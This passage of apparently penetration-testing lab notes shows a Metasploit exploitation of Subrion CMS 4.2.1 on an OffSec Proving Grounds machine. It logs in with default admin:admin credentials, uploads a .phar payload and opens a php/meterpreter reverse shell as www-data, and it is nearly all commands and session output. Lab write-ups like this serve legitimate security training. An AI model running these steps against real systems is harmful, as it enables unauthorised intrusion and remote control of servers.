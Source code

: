 ```
OS          : Linux debian 4.19.0-24-amd64 #1 SMP Debian 4.19.282-1 (2023-04-29) x86_64
Meterpreter : php/linux
meterpreter > 
```

### Subrion CMS v4.2.1 on Ubuntu 20.04 (Exfiltrated from Proving Grounds Practice)

* Using PHP paylod - default TARGET 0

```
msf6 > use exploit/multi/http/subrion_cms_file_upload_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.195.163
RHOSTS => 192.168.195.163
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set LPORT 80
LPORT => 80
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.45.162:80 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.195.163:80/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[!] This version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[+] The target appears to be vulnerable.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: rtPDWFrHa45hIhhXhLknM7DbWiHqAfux1fziFd3j
[*] Logging in to Subrion Admin Panel at: http://192.168.195.163/panel/ using credentials admin:admin
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.195.163/uploads/ixqywjyjyd.phar
[*] Executing 'ixqywjyjyd.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.195.163
[*] Meterpreter session 1 opened (192.168.45.162:80 -> 192.168.195.163:57658) at 2023-07-24 10:35:58 -0400
[+] Successfully executed payload: http://192.168.195.163/uploads/ixqywjyjyd.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : exfiltrated
OS          : Linux exfiltrated 5.4.0-74-generic #83-Ubuntu SMP Sat May 8 02:35:39 UTC 2021 x86_64
Meterpreter : php/linux
meterpreter > shell
Process 2489 created.
Channel 0 created.
cat /etc/os-release               
NAME="Ubuntu"
VERSION="20.04.2 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.2 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
```